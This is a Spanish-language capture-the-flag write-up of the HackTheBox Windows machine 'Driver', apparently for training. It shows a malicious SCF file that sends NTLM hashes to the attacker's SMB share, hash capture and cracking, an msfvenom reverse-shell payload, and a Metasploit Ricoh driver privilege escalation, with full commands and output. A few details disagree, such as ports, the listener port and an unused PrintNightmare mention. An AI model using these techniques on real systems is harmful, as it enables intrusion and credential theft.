

## Introducción
El día de hoy veremos la máquina **Driver** de la plataforma de HackTheBox. Se trata de una máquina Windows de nivel fácil que aborda los siguientes conceptos:

- Captura de hash Net-NTLMv2 mediante archivos SCF maliciosos
- Cracking de hashes Net-NTLMv2
- Explotación de controladores de impresora Ricoh (CVE-2019-19363)
- Explotación de PrintNightmare (CVE-2021-1675)

## Resolución

# Reconocimiento
Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.8.164 -oN puertos.txt
```

```
PORT    STATE SERVICE      REASON          VERSION
80/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m33s, deviation: 0s, median: 6h59m33s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 30341/tcp): CLEAN (Timeout)
|   Check 2 (port 57188/tcp): CLEAN (Timeout)
|   Check 3 (port 37519/udp): CLEAN (Timeout)
|   Check 4 (port 28835/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-02-16T16:59:17
|_  start_date: 2026-02-16T16:55:02
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Identificamos múltiples puertos característicos de un entorno Windows: HTTP (80), SMB/RPC (135/445) y WinRM (5985).

El escaneo de scripts en el puerto 80 revela "Basic realm=MFP Firmware Update Center. Please enter password for admin", lo que sugiere un sistema de actualización de firmware para impresoras multifunción.

### Puerto 445 - SMB
Intentamos conectarnos al servicio SMB sin credenciales, pero no obtenemos acceso ni podemos listar recursos compartidos:

```bash
smbmap -H 10.129.8.164
smbclient -N -L //10.129.8.164
```

Ambos comandos resultan en errores de autenticación, indicando que necesitamos credenciales válidas para acceder al servicio SMB.

### Puerto 80 - HTTP
Al acceder al puerto 80 mediante el navegador, nos encontramos con una solicitud de autenticación básica HTTP:

Probamos con las credenciales más comunes `admin:admin` y conseguimos acceso exitoso al sistema.

### Análisis del Sitio Web
Una vez autenticados, accedemos al "MFP Firmware Update Center":

La mayoría de los enlaces en la barra de navegación redirigen a `index.php`, excepto "Firmware Updates" que conduce a un formulario en `fw_up.php`:



Este formulario permite seleccionar una impresora de un menú desplegable y cargar un archivo. Al analizar la petición en Burp Suite, observamos que el archivo se envía mediante una petición POST con formato multipart/form-data:

# Explotación

### Estrategia de Ataque - Archivos SCF Maliciosos
La página web indica que los archivos cargados se almacenan en un recurso compartido de red. Esto nos proporciona un vector de ataque clásico: si tenemos permisos de escritura en un recurso compartido SMB, podemos colocar un archivo `.scf` (Shell Command File) malicioso.

Un archivo SCF es un archivo de comandos de Windows Shell que puede configurar cómo se muestra una carpeta. La técnica de ataque funciona de la siguiente manera:

1. Creamos un archivo SCF que referencia un icono ubicado en un servidor SMB bajo nuestro control
2. Cuando un usuario abre la carpeta que contiene el archivo SCF utilizando el Explorador de Windows, el sistema intentará automáticamente recuperar el icono
3. Durante este proceso, Windows iniciará una negociación de autenticación Net-NTLMv2 con nuestro servidor
4. Capturamos el hash Net-NTLMv2 y lo crackeamos offline

### Creación del Archivo SCF Malicioso
Creamos un archivo llamado `shell.scf` con el siguiente contenido:

```ini
[Shell]
Command=2
IconFile=\\10.10.15.95\share\evil.ico
```

La clave aquí es el campo `IconFile`, que apunta a un recurso en nuestro servidor SMB. Cuando Windows intente acceder a este recurso, enviará credenciales de autenticación.

### Captura del Hash Net-NTLMv2
Iniciamos `Responder`, una herramienta que actúa como un servidor multipropósito (incluyendo SMB) y captura intentos de autenticación Net-NTLMv2:

```bash
sudo responder -I tun0
```

Responder iniciará múltiples servicios:

```
[+] Listening for events...
```

Ahora cargamos nuestro archivo `shell.scf` a través del formulario de actualización de firmware. Casi inmediatamente, recibimos una conexión en Responder:

```
[SMB] NTLMv2-SSP Client   : 10.129.8.164
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:98f64b3370c2b3c6:0F8CFCD6C08A1621E12446E1467F7263:010100000000000000234670359FDC019CEC02FE58CB5E3F0000000002000800530048003800320001001E00570049004E002D0046004E00580054004C0041005800370043004800320004003400570049004E002D0046004E00580054004C004100580037004300480032002E0053004800380032002E004C004F00430041004C000300140053004800380032002E004C004F00430041004C000500140053004800380032002E004C004F00430041004C000700080000234670359FDC0106000400020000000800300030000000000000000000000000200000206102040A986A6AFA2EA043CF7E9A92B76E31899502593C5546CFE239953C360A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E0039003500000000000000000000000000
```

¡Excelente! Hemos capturado el hash Net-NTLMv2 del usuario `tony`.

### Cracking del Hash
Utilizamos `hashcat` para crackearlo. Según la [página de hashes de ejemplo de Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), los hashes Net-NTLMv2 corresponden al modo 5600:

```bash
hashcat hash -m 5600 /usr/share/wordlists/rockyou.txt
```

```
TONY::DRIVER:98f64b3370c2b3c6:0f8cfcd6c08a1621e12446e1467f7263:010100000000000000234670359fdc019cec02fe58cb5e3f0000000002000800530048003800320001001e00570049004e002d0046004e00580054004c0041005800370043004800320004003400570049004e002d0046004e00580054004c004100580037004300480032002e0053004800380032002e004c004f00430041004c000300140053004800380032002e004c004f00430041004c000500140053004800380032002e004c004f00430041004c000700080000234670359fdc0106000400020000000800300030000000000000000000000000200000206102040a986a6afa2ea043cf7e9a92b76e31899502593c5546cfe239953c360a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e0039003500000000000000000000000000:liltony
```

La contraseña del usuario tony es: **liltony**

### Acceso mediante WinRM
Verificamos que las credenciales sean válidas utilizando `crackmapexec`:

```bash
crackmapexec winrm 10.129.8.164 -u tony -p liltony
```

```
WINRM       10.129.8.164    5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.129.8.164    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

El mensaje "(Pwn3d!)" indica que las credenciales son válidas y que el usuario tony tiene permisos para acceder a WinRM.

Nos conectamos utilizando `Evil-WinRM`:

```bash
evil-winrm -i 10.129.8.164 -u tony -p liltony
```

```
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

La flag de usuario se encuentra en el escritorio de tony:

```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
********************************
```

# Escalada de Privilegios

### Obtención de Sesión Meterpreter
Dado que ya tenemos una shell en la máquina remota, podemos intentar obtener una sesión de Meterpreter, ya que esta puede ser muy útil al buscar exploits de escalada de privilegios local.

Primero, creamos un ejecutable malicioso que nos devolverá una shell a nuestra máquina local cuando se ejecute:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.95 LPORT=4444 -f exe > shell.exe
```

A continuación, configuramos `msfconsole`:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

Finalmente, cargamos y ejecutamos nuestro `shell.exe` en la máquina remota utilizando nuestra sesión de WinRM:

```powershell
*Evil-WinRM* PS C:\Users\tony\Documents> upload shell.exe
*Evil-WinRM* PS C:\Users\tony\Documents> .\shell.exe
```

Al revisar nuestro `msfconsole`, podemos ver que tenemos una sesión de Meterpreter activa.

### Enumeración y Migración de Proceso
Al enumerar los procesos que se están ejecutando actualmente en el sistema, podemos ver que estamos en la sesión 0, lo que significa que el proceso de Meterpreter se está ejecutando en una sesión de servicios aislada no interactiva.

```
meterpreter > ps
```

Intentamos migrar a un proceso, como `explorer` por ejemplo, que tiene un ID de sesión 1, lo que significa que es interactivo:

```
meterpreter > migrate -N explorer.exe
[*] Migrating from 1204 to 3276...
[*] Migration completed successfully.
```

### Local Exploit Suggester
Ahora que tenemos una sesión de Meterpreter interactiva válida, podemos ejecutar el módulo Local Exploit Suggester y revisar la salida. Para usar el módulo en nuestra sesión actual, utilizamos los siguientes comandos:

```
meterpreter > background
[*] Backgrounding session 1...

use multi/recon/local_exploit_suggester
set session 1
run
```

Obtenemos una lista de posibles exploits funcionales. Dado que el sitio web principal mencionaba software de impresora, estamos más interesados en los exploits relacionados con la explotación de impresoras.

### Análisis del Historial de PowerShell
Otra pista puede descubrirse leyendo el archivo de historial de PowerShell:

```powershell
*Evil-WinRM* PS C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

El historial de PowerShell revela que se emitió un comando para agregar una impresora. También podemos ver que el nombre del controlador es **RICOH PCL6 UniversalDriver V4.23**.

### Explotación del Controlador Ricoh
Al revisar nuestra lista de posibles exploits, encontramos un módulo de exploit llamado `ricoh_driver_privesc`. La estrecha conexión entre el nombre del exploit y el controlador instalado suena muy prometedora, por lo que decidimos proceder con este exploit.

Utilizamos los siguientes comandos para ejecutar el exploit en la máquina remota a través de nuestra sesión de Meterpreter:

```bash
use exploit/windows/local/ricoh_driver_privesc
set payload windows/x64/meterpreter/reverse_tcp
set session 1
set lhost tun0
run
```

El exploit se ejecuta exitosamente:

```
msf6 exploit(windows/local/ricoh_driver_privesc) > run

[*] Started reverse TCP handler on 10.10.15.95:9001 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer nHjnyIMNv...
[*] Sending stage (230982 bytes) to 10.129.8.164
[+] Deleted C:\Users\tony\AppData\Local\Temp\lwgeEaBOV.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 3 opened (10.10.15.95:9001 -> 10.129.8.164:49441) at 2026-02-16 11:52:52 +0100
[*] Deleting printer nHjnyIMNv

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

¡Tenemos una shell como NT AUTHORITY\SYSTEM! Podemos acceder a la flag de root:

```
meterpreter > cd C:\Windows\Users\Administrator\Desktop
meterpreter > type root.txt
********************************
```

¡Ya somos administradores! 🎉